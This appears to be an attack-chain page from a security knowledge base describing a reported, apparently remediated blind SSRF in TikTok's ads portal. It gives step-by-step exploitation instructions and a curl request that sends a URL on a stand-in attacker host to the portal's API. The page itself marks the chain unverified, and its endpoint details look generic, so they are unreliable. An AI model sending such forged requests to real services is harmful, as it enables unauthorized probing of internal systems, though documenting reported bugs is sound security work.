

# Blind SSRF in TikTok Ads Portal for Unauthorized Internal Requests

Multi-stage attack chain demonstrating a complete attack workflow based on the reported blind SSRF vulnerability in TikTok's ads portal.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Target Platform: Web application at ads.tiktok.com
- Required services/ports: HTTPS (443)
- Network access requirements: Public internet access to the ads portal

### Initial Access Requirements

- Credential requirements: Valid TikTok ads account (authenticated session)
- Network position: External attacker with portal access
- Prior access needed: Ability to interact with the ads management interface

## Detailed Attack Procedures

### Step 1: Identify and Exploit Blind SSRF Endpoint

procedure: [[procedures/Exploit-Blind-SSRF-via-URL-Parameter]]

**Objective**: Force the TikTok ads server to make unauthorized requests to internal or external resources via a vulnerable URL parameter in the portal, enabling potential reconnaissance or access to restricted services.

**Instructions**: Authenticate to the ads portal and use a proxy like [[tools/Burp-Suite]] to intercept requests. Modify a URL parameter (e.g., a callback or redirect URL in an ads creation flow) to point to an attacker-controlled server or internal endpoint. Monitor for blind confirmation via timing or out-of-band channels. For testing, craft a request using [[commands/curl-ssrf-test]] to simulate the forgery:

```bash
curl -X POST 'https://ads.tiktok.com/api/v1/ads/create' \
  -H 'Authorization: Bearer YOUR_TOKEN' \
  -H 'Content-Type: application/json' \
  -d '{"url": "http://attacker-controlled-server.com/payload"}'
```

Then, check your server logs for incoming requests from the TikTok server IP, confirming the SSRF.

**Expected Output**: No direct response from the vulnerable endpoint (blind nature), but evidence of the forged request on the attacker's listener (e.g., access logs showing TikTok's IP).

**Success Indicators**:
- Incoming request to attacker-controlled endpoint from TikTok server
- Timing delay or error indicating internal request attempt
- Potential access to internal metadata if targeted appropriately

## Attack Chain Summary

### Key Achievements

1. Identification of blind SSRF in ads.tiktok.com ads creation or management API
2. Successful forgery of server-side requests to external listener
3. Low-severity impact demonstration, leading to TikTok remediation via HackerOne

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
